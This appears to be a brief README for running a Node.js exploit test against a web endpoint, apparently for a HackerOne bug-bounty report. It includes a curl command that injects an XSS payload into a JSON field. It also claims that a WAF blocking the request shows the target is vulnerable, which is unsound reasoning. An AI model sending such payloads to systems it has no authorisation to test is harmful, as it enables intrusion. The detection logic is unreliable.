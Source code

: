 In order to use this test file, please follow the instructions below:

Dependencies required are npm and node.js

sudo su
apt-get update
apt-get install nodejs
apt-get install npm

Once done. Clone the repository and follow these commands:

npm init -y
npm install http

Finally, run the exploit using this command:

node test.js

Done.

Please note that if you receive any errors such as 301 Permanently Moved by CloudFlare then it's obviously CloudFlare that's blocking the endpoint from receiving the request. Nonetheless, this test will work in other ways.

To check if a WAF is responsible for the 301 Permanently Moved, confirm with a curl command: 

curl -X POST -H "Content-Type: application/json" -d '{"device_id":"<img src=x onerror=alert(1)>"}' [HOSTNAME OF THE VULNERABLE ENDPOINT]/[THE VULNERABLE ENDPOINT]

If you receive an error from the WAF saying that the request was blocked due to the execution of an arbitrary code such as SQL then the target is vulnerable and you can report it to HackerOne.

